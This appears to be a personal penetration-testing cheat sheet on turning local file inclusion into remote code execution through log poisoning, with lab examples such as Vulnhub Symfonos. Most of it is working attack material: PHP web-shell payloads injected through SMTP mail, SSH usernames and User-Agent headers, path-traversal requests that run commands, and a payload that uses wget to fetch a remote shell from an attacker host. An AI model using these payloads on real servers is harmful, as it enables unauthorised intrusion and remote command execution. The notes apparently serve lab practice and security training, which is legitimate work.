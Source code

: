 ## Mail Log Poisoning - 2 (/var/mail/`<user>`)
- Log files
	```
	/var/mail/helios
	/var/spool/mail/helios
	```
- Requires LFI
	```
	telnet 192.168.1.119 25
	MAIL FROM:asdf
	RCPT TO: <user>
	DATA
	<?php system($_GET['c']); ?>
	.
	QUIT
	```
- On webserver
	```
	?page=../../../../var/mail/<user>&c=id
	```
- Some Examples:
	-  [[Symfonos 1.bak#Port 80 HTTP - Wordpress Plugin LFI]]

## SSH Log Poisoning
- Log file location
	```
	/var/log/auth.log
	```
- Poisoning
	```
	 ssh '<?php echo system($_GET["c"]); exit; ?>'@$ip
	```
- RCE
	```
	?file=../../../../var/log/auth.log&c=whoami;
	```
	- Some Examples:
	- [Vulnhub Symfonos 4 - LFI2RCE via SSH Log Poisoning](https://yufongg.github.io/posts/Symfonos-4/#tcp80-http---lfi-via-ssh-log-poisoning)
	- [Guide](https://infosecaddicts.com/ssh-log-poisoning-performed-lfi-exploit-web-server/)
	- [Video Guide](https://www.youtube.com/watch?v=3pSEztwpYag)

## /proc/self/environ 
- Log file location
	```
	/proc/self/environ
	```
- Poisoning
	```
	curl "http://10.10.209.91/index.php?page=../../proc/self/environ" -H "User-Agent: <?php system(\$_GET['c']); ?>"
	```
	```
	curl "http://10.10.209.91/index.php?page=../../proc/self/environ" -H "User-Agent: <?system('wget http://10.x.x.x/shell.txt -O shell.php');?>"
	```
- RCE
	```
	?page=../../../../../proc/self/environ&c=whoami;
	?page=../../?/shell.php
	```